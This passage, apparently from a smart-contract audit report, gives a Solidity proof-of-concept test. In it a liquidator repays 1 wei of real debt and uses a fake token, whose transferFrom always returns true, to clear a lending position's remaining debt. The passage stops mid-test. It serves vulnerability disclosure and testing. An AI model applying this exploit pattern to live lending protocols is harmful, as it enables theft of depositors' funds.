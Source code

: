### Proof of Concept

First, add the following contract to `SdpBorrowTest.t.sol`:

```solidity
contract FakeToken {
    function transferFrom(address, address, uint256) public pure returns (bool) {
        return true;
    }
}
```

Then, the following test can be dropped into the file and run to demonstrate the issue:
```solidity
function testZach_LiquidateToFalselyRepay() public {
    // starting position:
    // - deposit 100 collateral (worth 100 eth)
    // - borrow 200 borrow (worth 400 eth)
    _deposit(100e18); // 100 eth
    _borrow(200e18); // 400 eth
    assert(riskEngine.isPositionHealthy(address(position)));

    // whoops, price of collateral falls by 1%, so we're liquidatable
    FixedPriceOracle newCollatTokenOracle = new FixedPriceOracle(0.99e18);
    riskEngine.toggleOracleStatus(address(newCollatTokenOracle));
    riskEngine.setOracle(address(pool), address(erc20Collat), address(newCollatTokenOracle));

    // confirm we are now unhealthy & can be liquidated
    assert(!riskEngine.isPositionHealthy(address(position)));

    // create malicious liquidation payload
    // ad[0] and dd[0] pass the check
    // dd[1] repays the full loan by using a valid pool but a malicious token
    AssetData[] memory ad = new AssetData[](1);
    ad[0] = AssetData({
        asset: address(erc20Collat),
        amt: 0
    });

    DebtData[] memory dd = new DebtData[](2);
    dd[0] = DebtData({
        pool: address(pool),
        asset: address(erc20Borrow),
        amt: 1
    });

    FakeToken fakeToken = new FakeToken();

    dd[1] = DebtData({
        pool: address(pool),
        asset: address(fakeToken),
        amt: 200e18 - 1
    });

    // before liquidation: 499 eth of assets vs 400 eth of debt
    (uint assets, uint debt, ) = riskEngine.getRiskData(address(position));
    console2.log("Assets Before: ", assets);
    console2.log("Debt Before: ", debt);

    // liquidate (this requires having 1 wei of the token to repay)
    erc20Borrow.mint(address(this), 1);
    erc20Borrow.approve(address(positionManager), type(uint256).max);
    positionManager.liquidate(address(position), dd, ad);

    // after liquidation: 499 eth of assets vs 0 debt
```
